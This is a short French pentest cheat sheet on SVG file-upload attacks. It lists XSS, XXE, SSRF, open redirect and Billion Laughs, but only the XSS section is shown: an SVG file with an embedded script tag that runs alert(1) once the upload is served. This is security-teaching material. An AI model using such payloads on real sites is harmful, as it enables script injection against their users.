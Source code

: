 **Type MIME** : `image/svg+xml`

**Description** : 

Le **Scalable Vector Graphics** ou **SVG**, est un format de données conçu pour décrire des ensembles de graphiques vectoriels et basé sur XML. Exemple :

```svg
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
    <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
</svg>
```

<img title="" src="XSS/xss.svg">

Des payloads peuvent être donc facilement être injecté dans le fichier SVG.

## Sommaire

- Cross-Site Scripting (XSS)

- HTML Injection

- XML External Entity (XXE)

- OpenRedirect

- Server-Side Request Forgery (SSRF)

- DoS : Billion Laughs

## Cross-Site Scripting (XSS)

### Pré-requis

- Le fichier doit être accessible après avoir été uploadé

### Attaque

Du code JavaScript peut être facilement ajouté dans le fichier SVG complet (ici, entre les balises `<script>`) :

**xss.svg**

```svg
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
   <script type="text/javascript">
      alert(1);
   </script>
</svg>
```
